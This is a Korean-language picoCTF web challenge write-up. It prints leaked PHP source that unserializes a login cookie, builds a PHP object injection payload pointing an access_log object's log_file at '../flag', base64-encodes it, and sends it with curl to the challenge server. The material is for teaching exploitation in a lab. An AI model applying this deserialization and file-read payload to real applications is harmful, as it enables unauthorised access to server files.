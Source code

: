 ```yaml
---
tags:
  - picoCTF
tech:
  - PHP Object Injection
  - Web
---
```



# Walk-Through

문제 링크로 접속하면 username과 password 입력 박스가 보인다. 입력 박스를 통해 기본적으로 시도해볼 수 있는 SQL Injection 을 해봤지만 성공하진 않는다.

문제 풀이에 대한 힌트를 얻기 위해 사이트 내부로 돌아다니자. 일단 /robots.txt 를 접속 시도했을때 다음과 같은 내용이 보인다.
```txt
User-agent: *
Disallow: /admin.phps
```

https://www.solvusoft.com/ko/file-extensions/file-extension-PHPS 에 따르면 phps는 PHP Source를 볼 수 있는  파일이라고 되어있다. robots.txt를 통해 admin.phps가 노출된 걸 통해 사이트 내 다른 파일도 phps가 접근 가능한게 아닐까 ?

F12를 눌러 Network 탭을 통해 username & password 입력박스의 경로가 "/index.php" 라는 걸 확인할 수 있다. 이후 index.phps 로 접근하면 소스 파일을 열어볼 수 있다.
```php
<?php
require_once("cookie.php");

if(isset($_POST["user"]) && isset($_POST["pass"])){
	$con = new SQLite3("../users.db");
	$username = $_POST["user"];
	$password = $_POST["pass"];
	$perm_res = new permissions($username, $password);
	if ($perm_res->is_guest() || $perm_res->is_admin()) {
		setcookie("login", urlencode(base64_encode(serialize($perm_res))), time() + (86400 * 30), "/");
		header("Location: authentication.php");
		die();
	} else {
		$msg = '<h6 class="text-center" style="color:red">Invalid Login.</h6>';
	}
}
?>
```
해당 소스를 흝어보니 로그인에 성공한 경우 authentication.php를 호출하는걸로 보아 이 파일도 phps로 접근하면 소스를 읽어볼 수 있을 듯 하다.
```php
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
authentication.phps 에서 또한 cookie.php 파일을 확인할 수 있다. cookie.phps로 접속해서 소스를 확인하자.
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```

cookie.phps를 통해 cookie에 login이라는 key를 통해 무언가 시도해볼 수 있는 것으로 보인다.

# PHP Object Injection

PHP Object injection은 unserialize() 함수에 사용자가 입력한 값을 전달되기 전에 제대로 삭제되지 않은 경우 발생한다고 한다.

PHP는 객체 직렬화를 허용하므로 공격자가 임시로 직렬화된 문자열을 취약한 unserializer() 호출에 전달하여 임의의 PHP 객체를 주입할 수 있다.

이 문제에서는 authentication.php에 정의된 "access_log"의 log_file 변수에 문제에서 힌트로 준 플래그 파일의 경로를 가리키게 해보자.



# Payload

cookie의 login이라는 key에 입력할 value를 다음과 같이 입력하자.
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
위 값이 의미하는 바는 각각 다음과 같다.
```
Object:Object Name Length:"Class Name":Object Size:{s}
```
O : Object
10 : Object Name Length
"access_log" : Class Name
1 : Object Size (입력값)
s : String
8 : String Length
log_file : String Name
s : String
7 : String Legnth
"../flag" : String Name


위 값을 base64로 encode 하며 다음과 같은 값이 나온다.
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
브라우저의 쿠키 편집 도구를 이용해서 시도할 수도 있겠으나 단순히 curl을 이용해보자.
``` shell
╰─$ curl -v --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9" http://mercury.picoctf.net:8404/authentication.php
```
위 curl 명령의 결과로 flag 획득이 가능하다.